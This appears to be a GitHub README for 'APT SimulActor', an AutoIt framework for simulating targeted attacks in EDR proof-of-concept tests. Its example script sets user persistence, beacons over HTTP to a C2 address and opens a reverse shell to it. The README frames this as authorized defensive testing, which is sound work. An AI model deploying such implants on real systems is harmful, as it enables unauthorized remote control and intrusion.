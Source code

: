 # APT SimulActor

## Introduction

Targeted attacks are not random in nature and are usually composed of different phases like infection, data exfiltration and persistency.
APT SimulActor is a little framework based on AutoIT libraries for basic EDR POCs.

## Example Code
```
#include "APT-SimulActor.au3"

$c2_ip = "192.168.231.106"
$c2_port = "444"
$timer = 60

init()

if InternetCheck() Then

   If numberOfLogins(whoami()) > 2 Then

	  Move2Temp()

	  SetPersistent4CurrentUser()

	  While $timer > 0

		 HttpPost($c2_ip, "Timer:", $timer)
		 Sleep(1000)
 		 $timer = $timer - 1

	  WEnd

	  ReverseShell($c2_ip, $c2_port)

   EndIf

EndIf
```



## Prerequisites

AutoIt Downloads [link](https://www.autoitscript.com/site/autoit/downloads/)

## Disclaimer

The APT-SimulActor use requires authorization from proper stakeholders. Author and Contributors will not be responsible for the malfunctioning or weaponization of the tool.
